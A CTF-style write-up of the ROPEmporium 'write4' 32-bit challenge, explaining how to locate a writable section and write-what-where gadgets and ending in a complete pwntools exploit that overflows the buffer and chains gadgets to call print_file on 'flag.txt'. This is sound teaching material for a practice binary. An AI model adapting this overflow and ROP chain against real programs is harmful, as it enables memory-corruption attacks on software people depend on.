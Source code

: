 ```yaml
---
title: "ROPEmporium: write4 32-bit"
date: 2021-05-24T19:41:00+02:00
---
```


# Writeup of write four [write4] on ROPEmporium

Prerequisites: Basic knowledge of assembly, disassembling tools, the previous challenges, and calling convention

------------------------------------
We're told the following: "A PLT entry for a function named print_file() exists within the challenge binary, 
simply call it with the name of a file you wish to read (like 'flag.txt') as the 1st argument. The 'flag.txt' isn't present in the binary"

We need a writeable part of memory, because we need to write the string into the binary. 

```c
0x080483f0]> iS

nth paddr        size vaddr       vsize perm name

24  0x00001018    0x8 0x0804a018    0x8 -rw- .data
```
[Other sections have been removed due to easier readability]

We're going to write out flag into this section. The section has a size of 8, which is perfect for our payload of 8 characters. Originally I used a different section with a larger size, this caused the string not to be null-terminated, and therefore the payload didn't work.

Now how are we going to write to this section? That's our next problem. We'll need to use a "write/what/where" gadget, such as: ```mov [reg], reg```
The gadget moves the value of reg, into the address pointed to by reg. This is what the [] brackets are for.

We can open the binary with gdb, and look at the usefulGadgets function (addr found with info func)
```c
pwndbg> disass usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x08048543 <+0>: mov    DWORD PTR [edi],ebp
   0x08048545 <+2>: ret    
```
We have a gadget that moves the value from ebp into the address pointed to by edi. Now we need a gadget, that can control the values in the edi and ebp registers. If we remember
the crucial basic instruction "pop", this is a way of setting a registers value. (It does also increment the stackpointer, but we don't care about that right now)
```bash
cave@noobpwn:~/binexp/ROP-emperium/write4_32$ ROPgadget --binary write432 | grep pop

0x080485aa : pop edi ; pop ebp ; ret
```
[Other results removed for readability]

Great! So we have a gadget to set the registers. Now we'll need to put together the ropchain.

```
pop_edi_pop_ebp + datasegm + b"flag"
mov_[edi]_ebp

pop_edi_pop_ebp + datasegm+0x4 + b".txt"
mov_[edi]_ebp

print_file + datasegm
```
It's important to remember that the gadget works as a: ```mov destination, source```


The reason for our +0x4, is that we can only have 4 bytes in an address at once. 1 address is equal to 32 bit, which is the same as 4 bytes.

Now we just need the print_file call, where we need this datasegm (beginning) to be the argument! And flag!:)

Exploit:

```python
from pwn import *

elfPath="./write432"
context.arch="i386"


print_file=p32(0x08048538)
datasegm=0x0804a018

mov=p32(0x08048543) #mov [edi], ebp
pop=p32(0x080485aa) #pop edi; pop ebp

gdbscript= f"""
c
"""

terminalSetting = ['gnome-terminal', '-e']
context.clear(terminal=terminalSetting)

io = pwnlib.gdb.debug(elfPath, gdbscript = gdbscript)

mnm = cyclic_gen()
mnm = mnm.get(80)
point=cyclic_find(b"laaa", endian="little")
#6161616c is at the return or laaa


def main():
    print(io.recvuntil("> "))
    
    payload=b"A"*point #padding
    payload+=pop+p32(datasegm)+b"flag" 
    payload+=mov 
    payload+=pop+p32(datasegm+0x4)+b".txt" 
    payload+=mov 
    payload+=print_file+p32(datasegm) #Call print_file with the memory as argument

    io.send(payload)
    print(io.recv(2048))
    io.interactive()

main()
```
